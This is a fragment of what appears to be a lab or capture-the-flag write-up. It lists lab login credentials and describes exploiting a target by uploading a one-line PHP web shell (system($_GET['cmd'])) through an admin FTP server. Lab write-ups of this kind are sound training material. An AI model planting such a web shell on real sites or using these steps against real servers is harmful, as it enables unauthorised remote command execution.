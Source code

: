 username: offsec
password: elite

![](Images/Pasted%20image%2020221001115137.png)

![](Images/Pasted%20image%2020221001115213.png)


---

# Exploitation
## Simple PHP Backdoor RCE

## Port 21

- As per our earlier discoveries, the root directory contains the.htaccess file.

- On our Kali machine, we create a file called "simplephpbackdoor.php" that contains the following:

<?php system($_GET["cmd"]);?>

- Subsequently, we access the admin FTP server and upload the file simplephpbackdoor.php.

![](Images/Pasted%20image%2020221001115235.png)
